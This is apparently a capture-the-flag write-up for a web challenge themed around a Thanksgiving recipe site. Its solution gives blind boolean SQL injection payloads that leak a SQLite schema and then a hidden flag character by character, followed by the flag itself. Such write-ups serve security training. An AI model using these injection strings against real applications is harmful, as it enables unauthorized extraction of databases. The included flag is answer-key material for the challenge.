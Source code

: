 # Web 300-3 - The Color Drained from His Face
## Description
If you're in the USA then you know that we had a holiday this week. We call it Thanksgiving, and while its original meaning is ultimately a dark tale, we've given the holiday new meaning in the from of a time of observance and reflection upon all of the things in our lives that we appreciate. We express gratitude for the things that keep us going, make things possible, and give us meaning.

Except most people in the world aren't that insightful or perceptive, and generally feel entitled to things. So really it's about violent Black Friday shopping, hating your family, and watching sports that inexplicably play on that day.

Of course, the most important thing Thanksgiving is about: Overindulging. Though I have to admit, I've got a pretty awesome recipe. The key is the stuffing. See, I take some normal sage stuffing, quinoa, and lemon juice and I mix it all up into a wet paste. Really get a union of flavors together. Then I inject that stuff right on up there into the turkey. Really get it in there because turkeys get these little hidden spots that you might not see from just looking. The lemon really gives the turkey a delightful scent of industrial cleaning solution that kids really love.

Feel free to try it out for yourself. I got the recipe from Thanksgiving Delights. They seem to also have a lot of other *recipes* for your *table*.

[We Give Thanks To You, Watcher](http://34.135.223.176:1928/)

## Solution
The `search` (POST) query is vulnerable to SQL injection.

First, leak the database structure (character per character) using the query ```foo' or (SELECT CASE WHEN ((SUBSTR((SELECT sql FROM sqlite_schema),$IDX,1) == "$CHR")) THEN "1" ELSE "0" END)="1" -- ```
```CREATE TABLE recipes         id INTEGER PRIMARY KEY,        title TEXT NOT NULL,        content TEXT NOT NULL,        ingredients TEXT,        instructions TEXT,        flag TEXT     ```

Now that we know there is a `flag` column in the recipes table, find the `id` of the recipe which contains the flag:
```foo' or (SELECT CASE WHEN (SUBSTR((select flag from recipes where id = 8), 1, 1)="p") THEN "1" ELSE "0" END)="1" --```

Finally, leak the flag:
```foo' or (SELECT CASE WHEN ((SUBSTR((select flag from recipes where id = 8), $IDX, 1)= "$CHR")) THEN "1" ELSE "0" END)="1" -- ```

## Flag
`poctf{uwsp_7h3_5leep3r_mu57_4w4k3n}`
